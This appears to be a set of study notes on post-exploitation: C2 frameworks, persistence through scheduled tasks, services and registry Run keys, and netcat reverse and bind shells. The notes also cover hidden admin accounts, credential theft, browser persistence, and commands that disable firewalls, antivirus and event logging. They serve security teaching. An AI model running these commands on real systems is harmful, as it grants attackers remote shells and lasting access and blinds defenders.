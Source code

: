 ## Command and Control (C2) Techniques

- **Definition**: Frameworks for remote control of compromised hosts
- **Empire**
    - PowerShell/Python-based, stealthy (avoids `powershell.exe`)
    - Modules: keylogging, credential dumping, lateral movement
    - Maintained in Kali community
- **Covenant**
    - .NET-based, cross-platform (Windows, Linux, macOS)
    - Web-based interface for managing implants
    - Use for executing .NET commands, dumping credentials, long-term access
- **Mythic**
    - Cross-platform, CLI-focused, modular architecture
    - Supports custom payloads; robust API for automation

---

## Automating Persistence

- **Scheduled Tasks & Cron Jobs**
    - **Windows**:
        ```powershell
        schtasks /create /sc hourly /tn "UpdateCheck" /tr "C:\payload.exe"
        ```
        - `schtasks`: manage tasks  
        - `/sc hourly`: run hourly  
        - `/tn "UpdateCheck"`: task name  
        - `/tr "C:\payload.exe"`: executable path
    - **Unix**:
        ```cron
        0 * * * * /etc/payload.sh
        ```
        - Executes `/etc/payload.sh` at minute 0 every hour
- **Service Creation**
    - **Windows**:
        ```powershell
        sc create "MaliciousService" binPath= "C:\path\payload.exe" start= auto
        ```
        - Creates service `MaliciousService` to run payload on boot
    - **Unix**:
        - Place script in `/etc/init.d/` and run:
            ```bash
            update-rc.d payload.sh defaults
            ```
        - Ensures script runs on startup
- **Registry Keys (Windows)**
    - Persist payload via Run key:
        ```powershell
        reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MyPayload /t REG_SZ /d "C:\path\payload.exe"
        ```
        - Adds `MyPayload` entry to run on user login

---

## Remote Shells

- **Definitions**
    - **Reverse Shell**: Target initiates connection back to attacker, bypassing firewalls
    - **Bind Shell**: Target listens for connection; attacker connects to target port
- **Reverse Shell Example (Netcat)**
    - **Attacker Listener**:
        ```bash
        nc -lvp 4444
        ```
        - `-l`: listen mode; `-v`: verbose; `-p 4444`: port 4444
    - **Target Command**:
        ```bash
        nc 10.0.0.2 4444 -e /bin/bash
        ```
        - Connects to attacker at `10.0.0.2:4444`, spawns `/bin/bash`
- **Bind Shell Example (Netcat)**
    - **Target Setup**:
        ```bash
        nc -lvp 4444 -e /bin/bash
        ```
        - Listens on port 4444, executes `/bin/bash` upon connection
    - **Attacker Connects**:
        ```bash
        nc 10.0.0.3 4444
        ```

---

## Backdoors

- **Backdoors**: bypass auth to gain/maintain access to system, network or app
- **Rootkits**
    - Kernel-level software hiding processes and files
    - Example: **ZeroAccess** rootkit hides files, grants persistent kernel access
- **Trojans**
    - Malware disguised as legitimate software to open backdoors
    - Example: **Zeus Trojan** steals banking credentials
- **Web Shells**
    - Scripts uploaded to web server for remote control via HTTP
    - Example: **China Chopper** web shell provides command execution

---

## Account Credentials

- **Credential Dumping**
    - Extract credentials from memory or files  
    - Tool Example: **Mimikatz** to dump plaintext passwords on Windows
- **Keylogging**
    - Capture keystrokes to harvest usernames/passwords
    - Example: **Emotet** implants keylogger modules post-infection
- **Phishing Attacks**
    - Craft emails/pages to trick users into revealing credentials  
    - Example: 2016 attack on campaign staff using fake Google login
- **Adding New Accounts**
    - Create hidden accounts for re-entry
    - **Windows**:
        ```powershell
        net user backup_admin P@ssw0rd /add
        net localgroup administrators backup_admin /add
        ```
    - **Linux**:
        ```bash
        sudo useradd -m -s /bin/bash backup_admin
        echo "backup_admin:P@ssw0rd" | sudo chpasswd
        sudo usermod -aG sudo backup_admin
        ```

---

## Browser-Based Persistence

- **Malicious Browser Extensions**
    - Hijack browser functions to capture data or execute code
    - Example: 2017 **Copyfish** extension hijack pushed ads
- **Cookies & Local Storage**
    - Manipulate via **XSS** to steal session tokens  
    - Example: 2018 Telegram web client vulnerability exploited local storage
- **Session Hijacking**
    - Tools: **FireSheep** hijacks unencrypted cookies on open Wi-Fi
- **Browser Setting Modifications**
    - Change homepage, proxy to redirect traffic  
    - Example: Malicious script altering proxy to capture credentials
- **Defenses**
    - Review/manage extensions regularly  
    - Enforce **HTTPS** and **Content Security Policy (CSP)**  
    - Keep browsers updated; audit for unusual behavior

---

## Security Control Tampering

- **Disabling Firewalls**
    - **Windows**:
        ```powershell
        netsh advfirewall set allprofiles state off
        ```
    - **Linux (UFW)**:
        ```bash
        ufw disable
        ```
    - **Linux (firewalld)**:
        ```bash
        systemctl stop firewalld
        ```
- **Disabling Antivirus**
    - **Windows Defender**: Disable real-time protection via PowerShell
    - **Linux (ClamAV)**:
        ```bash
        systemctl stop clamav-freshclam
        ```
- **Tampering Security Policies**
    - **Windows**: Export/import using `secedit` to weaken password/account policies
    - **Linux**: Modify **PAM** configurations in `/etc/pam.d/` to allow stealth access
- **Disabling Security Logging**
    - **Windows**:
        ```powershell
        sc stop EventLog
        sc config EventLog start= disabled
        ```
    - **Linux**:
        ```bash
        systemctl stop rsyslog
        ```
- **Persistence via Scheduled Tasks**
    - **Windows**:
        ```powershell
        schtasks /create /tn "update" /tr "C:\update.bat" /sc onstart
        ```
    - **Linux (cron)**:
        ```bash
        crontab -e @reboot /etc/maliciousscript.sh
        ```
- **Disabling UAC**
    - **Windows**: Modify UAC settings via registry or Local Security Policy
    - **Linux**: Weaken `sudo` by allowing passwordless execution in `/etc/sudoers`
